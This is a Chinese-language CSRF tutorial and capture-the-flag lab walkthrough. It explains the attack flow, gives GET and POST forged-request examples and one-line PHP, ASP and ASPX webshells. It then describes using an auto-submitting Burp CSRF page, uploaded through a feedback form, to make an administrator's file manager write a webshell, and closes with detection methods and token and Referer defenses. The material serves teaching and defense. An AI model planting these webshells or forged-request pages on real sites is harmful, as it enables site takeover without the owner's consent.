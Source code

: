 # Chapter 6.4 - CSRF

[TOC]

## 0x00 原理

> **跨站请求伪造**（Cross-site request forgery），也被称为 **one-click attack** 或者 **session riding**，通常缩写为 **CSRF** 或者 **XSRF**， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法。跟跨网站XSS相比，**XSS** 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户网页浏览器的信任。

CSRF 攻击之所以能够成功，是因为攻击者可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 `cookie` 中，因此攻击者可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证，实施操作。

### 0b001 CSRF的攻击流程

1. **用户**：登录被信任**网站A**
2. **网站A**：验证通过，保留用户**Cookie**
3. **用户**：在不关闭**网站A**会话情况下进入预备好的CSRF**网页B**
4. **网页B**：通过Js指定用户携带`传参信息`访问**网站A**
5. **网站A**：验证用户保留**Cookie**，接受用户`传参信息`

> 由此可见，CSRF便是引导浏览器使用用户的Cookie模拟用户传参。

### 0b010 常见的CSRF类型

**GET**类型：通过地址栏的GET传参伪造HTTP请求，如

```
http://ABC.xyz/index.php?id=12
```

实际运用：

```
<img src=http://ABC.xyz/index.php?id=12 />
```

**POST**类型：通常通过表单提交POST请求，如

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <!-- 指定传参URL及方法 -->
  	<form action="#URL" method="POST">
      <input type="hidden" name="action" value="send" />
      <input type="hidden" name="comtype" value="comments" />
     <!-- 显示按钮提交 -->	
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

### 0b011 一句话木马

```php
#php的一句话木马： 
<?php @eval($_POST['PASS']);?>
#asp
<%eval request ("PASS")%>
#aspx
<%@ Page Language="Jscript"%> <%eval(Request.Item["PASS"],"unsafe");%>
```

利用**文件上传漏洞**，往目标网站中上传一句话木马，然后通过注入软件获取和控制整个网站目录。@表示后面即使执行错误，也不报错。`eval（）`函数表示括号内的语句字符串什么的全都当做代码执行。`$_POST['PASS']`表示服务器将从页面中获得PASS这个参数值。

## 0x01 复现过程

1. 使用指纹识别后安装一个与靶场相同的cms 先在本地测试好了后再实战

	![](https://nc0.cdn.zkaq.cn/md/5371/3072dc6f53be64dbaf9f6f01a08724cd_13009.png)
2. 登录后可见此cms上有文件式管理器 

	![](https://nc0.cdn.zkaq.cn/md/5371/5461e6b56bf77b58e28328b5a26a81b0_26357.png)
3. 新建文件222.php 内容写一句话木马 此时打开burpsuite抓包

	![](https://nc0.cdn.zkaq.cn/md/5371/3196e1bec5caa09d573db51a9673f65f_77947.png)
4. 抓到的数据包里面没有token，极大概率存在csrf漏洞，此时我们使用burp中的Generate CSRF PoC功能，将生成好的html代码复制出来 新建一个HTML文件

	![](https://nc0.cdn.zkaq.cn/md/5371/3eb6e15285fa9517d7746ed027a5d4ae_69326.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/4f400143320907c480227a9aaa631052_38371.png)
5. 让代码实现自动提交功能

	![](https://nc0.cdn.zkaq.cn/md/5371/37d03761dd864a1eed27be3d0abfb986_64386.png)
6. 将csrf.html 拖到浏览器，此时文件式管理器自动生成一个222.php，本地测试成功

	![](https://nc0.cdn.zkaq.cn/md/5371/d151d504faf96df07929b38473fb80bf_83428.png)
7. 实战和本地唯一的区别就是域名此时修改csrf.html里面的域名即可

	![](https://nc0.cdn.zkaq.cn/md/5371/56e75ec1632eb88b44bf7ebb013ee54e_11139.png)
8. 将csrf.html通过反馈界面上传
	![](https://nc0.cdn.zkaq.cn/md/5371/24394eeeae40d82b0d2cc7826dcb78a2_68569.png)

9. 等待管理员访问我们刚才的提交的那个木马文件 访问了后先在链接后面加个phpinfo()探针验证一下 成功后就可以打开菜刀了

	![](https://nc0.cdn.zkaq.cn/md/5371/cd11ea8073cd9591b52387fff571258d_85909.png)
	![](https://nc0.cdn.zkaq.cn/md/5371/1ecf814862f8dfe197394e9f14a4892d_86993.png)
10. 将链接添加进去 后面填入8 点击添加 进入后拿到flag

	![](https://nc0.cdn.zkaq.cn/md/5371/09bc35f363db10dbddebf146cbc7cca4_41913.png)

## 0x02 漏洞检测与防范

### 0b001 漏洞检测

1. 手动方式

   把已有的请求通过从HEADER中去掉Referer后重新提交，如果该提交仍然有效，则大概率存在CSRF漏洞。

2. 自动化工具

   自动化工具会自动抓取页面内所有链接及表单信息，通过用户在工具中修改信息并重新提交来伪造客户端请求，如果修改后的测试请求被服务器接受，则可以认定存在CSRF漏洞。

### 0b010 漏洞防范

1. **服务器验证用户请求中的HTTP Referer字段**

   > 根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站。

   要防御 CSRF 攻击，网站只需要对于每请求验证其 Referer 值，如果是白名单内的域名，则说明该请求是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，服务器自动拒绝该请求。

2. **为用户请求添加token**

   要抵御 CSRF，关键在于在请求中放入黑客所**不能伪造的信息**，并且该信息**不存在于 cookie 之中**。可以在 HTTP 请求中以参数的形式加入一个**随机产生的** `token`，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。

3. **在用户请求的URL或HEADER中加入自定义规则参数**

    这种方法也是使用 token 并进行验证，和上一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。通过 `XMLHttpRequest` 这个类，可以一次性给所有该类请求加上 `csrftoken` 这个 HTTP 头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。

## 0x03 思考与要点

1. CSRF与XSS的区别：CSRF伪造请求,XSS为跨站脚本攻击,一个为通过被攻击者浏览器携带验证信息请求头访问网站获取信息,一个则是使用一个脚本攻击。
2. CSRF的成因：Cookie不过期，没有进行进一步的验证用户信息，没有安全意识访问了恶意站点。